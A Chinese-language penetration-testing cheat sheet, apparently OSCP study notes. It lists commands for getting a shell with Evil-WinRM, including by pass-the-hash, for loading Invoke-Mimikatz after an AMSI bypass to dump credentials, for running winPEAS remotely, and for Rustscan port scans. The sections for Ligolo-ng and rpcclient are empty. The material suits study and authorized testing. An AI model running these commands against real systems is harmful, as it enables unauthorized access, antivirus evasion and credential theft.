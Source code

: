 >[!NOTE]
>因為一些指令四散在各處，所以多開一個章節，希望可以增加效率。
# 常用工具指令速查
>[!WARNING]
>用來掃描、列舉主機資訊的相關工具，同時也有一些常用的攻擊工具
## Evil-WinRM 
>[!WARNING]
>拿到帳密後可以用於登入拿shell的好東西
### 基礎使用
- 帳號密碼登入
```
evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987
```
- 帳號密碼登入 - SSL登入 
```
evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -S
```
- PassTheHash 
```
evil-winrm -i 192.168.1.19 -u administrator -H 32196B56FFE6F45E294117B91A83BF38
```
### PowerShell 腳本導入
可以導入的有 Invoke-Mimiktz.ps1、Invoke-NinjaCopy.ps1、PowerView.ps1等等
- Mimiktz 
>powershell檔案要放在/opt/privsc/powershel
[吉哈伯連結 ](https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz)
```
evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -s /opt/privsc/powershell
```
```
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz
```
### 執行遠端文件
>將Winpeas.exe放在 /opt/privsc，
```
evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -e /opt/privsc
```
```
Bypass-4MSI
menu
Invoke-Binary /opt/privsc/winPEASx64.exe
```
## Rustscan 
>[!WARNING]
>OSCP Friendly 的工具
  - rustscan基礎掃描 
```
rustscan -a 192.168.100.1 -u 5000 -t 80000 --scripts none
```
- rustscan整合nmap
```
rustscan -a 192.168.100.1 -u 5000 -t 80000 --scripts -- -n -Pn -sC -sV -oN mylist.txt
```
## Ligolo-ng
>[!WARNING]
>OSCP Friendly 的工具
## rpcclient 